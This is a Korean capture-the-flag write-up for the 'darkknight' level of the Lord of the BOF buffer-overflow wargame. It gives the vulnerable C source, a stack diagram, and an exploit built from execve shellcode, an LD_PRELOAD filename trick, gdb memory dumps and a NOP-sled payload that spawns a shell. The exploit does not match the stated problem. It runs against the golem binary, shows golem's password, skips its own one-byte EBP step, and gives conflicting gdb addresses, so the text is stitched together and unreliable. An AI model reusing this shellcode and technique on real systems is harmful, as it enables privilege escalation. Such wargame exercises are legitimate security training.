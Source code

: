 darkknight
===================

.. role:: r

.. role:: g

.. role:: b


source code
----------------

해당 문제 소스코드는 다음과 같습니다.

.. code-block:: c

    /*
        The Lord of the BOF : The Fellowship of the BOF
        - darkknight
        - FPO
    */

    #include <stdio.h>
    #include <stdlib.h>

    void problem_child(char *src)
    {
        char buffer[40];
        strncpy(buffer, src, 41);
        printf("%s\n", buffer);
    }

    main(int argc, char *argv[])
    {
        if(argc<2){
            printf("argv error\n");
            exit(0);
        }
        problem_child(argv[1]);
    }


Buffer Overflow
----------------

스택에 다음과 같이 들어가게 됩니다.

======= =========
LOW     
------- ---------
Buffer  (40byte)
SFP     (4byte)
RET     (4byte)
argc    (4byte)
argv    (4byte)
------- ---------
HIGH    
======= =========


EXPLOIT
----------------

1) ebp 마지막 1바이트를 수정하여 특정 주소로 이동

2) RET 주소를 공유 라이브러리 로드 주소로 변경하여 공격 진행

쉘코드 파일명을 공유 라이브러리로 등록
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

기존에 사용한 쉘코드에는 \x2f 값이 있기 때문에 정상적으로 쉘코드가 동작하지 않습니다.

\x2f가 없는 쉘코드로 파일명을 생성하도록 합니다.

공유 라이브러리 영역에 쉘코드로 파일명을 등록합니다.

.. code-block:: console
    
    [skeleton@localhost skeleton]$ gcc -fPIC -shared -o `python -c 'print "\x90"*40+"\x31\xc0\x50\xba\x11\x11\x11\x11\x81\xc2\x1e\x1e\x62\x57\x52\xba\x11\x11\x11\x11\x81\xc2\x1e\x51\x58\x5d\x52\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80"'` golem.c

    [skeleton@localhost skeleton]$ export LD_PRELOAD=./`python -c 'print "\x90"*40+"\x31\xc0\x50\xba\x11\x11\x11\x11\x81\xc2\x1e\x1e\x62\x57\x52\xba\x11\x11\x11\x11\x81\xc2\x1e\x51\x58\x5d\x52\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80"'`

gdb를 통해 공유 라이브러리에 올라간 쉘코드 주소를 확인합니다.

.. code-block:: console

    (gdb) b* main
    Breakpoint 1 at 0x8048500
    (gdb) r
    Starting program: /home/skeleton/golem2
    /bin/bash: /home/troll/.bashrc: Permission denied

    Breakpoint 1, 0x8048470 in main ()
    (gdb) x/100x $esp-3000

===========     =============== =============== =============== ==========
0xbfffeef4:     0x000005f0      0x0000004d      0x0000028d      0x00000319
0xbfffef04:     0x000005a7      0x00000514      0x0000020c      0x00000659
0xbfffef14:     0x000002a4      0x0000003f      0x00000311      0x000001fe
0xbfffef24:     0x00000000      0x0000050f      0x00000446      0x00000000
0xbfffef34:     0x00000500      0x0000054e      0x000006d6      0x0000068b
0xbfffef44:     0x00000000      0x0000037d      0x00000000      0x0000038c
0xbfffef54:     0x00000000      0x000000cb      0x0000059b      0x00000707
0xbfffef64:     0x00000557      0x00000000      0x00000564      0x00000000
0xbfffef74:     0x00000301      0x0000048e      0x00000550      0x00000000
0xbfffef84:     0x0000067f      0x00000000      0x00000000      0x00000715
0xbfffef94:     0x000005e9      0x0000060d      0x00000529      0x000003a4

(중략)
0xbffff604:     0xbffff64c      0x00000002      0x40023fd0      0x40013c00
0xbffff614:     0x4000ba15      0x40013868      0x40000814      0x400041b0
0xbffff624:     0x00000001      0xbffff634      0x40001528      0x000002c8
0xbffff634:     0x00000000      0x080482d0      0x00000000      0x00000001
0xbffff644:     0x40000824      0xbffff654      0x400075bb      0x40017000
0xbffff654:     0x00002fb2      0x40013868      0xbffff7e4      0x4000380e
0xbffff664:     0x40014428      0x90902f2e      0x90909090      0x90909090
0xbffff674:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffff684:     0x90909090      0x90909090      0x90909090      0xc0319090
0xbffff694:     0x1111ba50      0xc2811111      0x57621e1e      0x1111ba52
0xbffff6a4:     0xc2811111      0x5d58511e      0x50e38952      0x31e18953
===========     =============== =============== =============== ==========


RET 주소를 공유 라이브러리 로드 주소로 변경하여 공격 진행
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

공유 라이브러리 주소 : nop(40 byte) + shellcode (39 byte) 

argv[1] : nop(44 byte) + 공유 라이브러리 주소

.. code-block:: console

    [skeleton@localhost skeleton]$ ./golem `python -c 'print "\x90"*44+"\x82\xf6\xff\xbf"'`
    ▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒

    bash$ whoami
    golem
    bash$ my-pass
    euid = 511
    cup of coffee

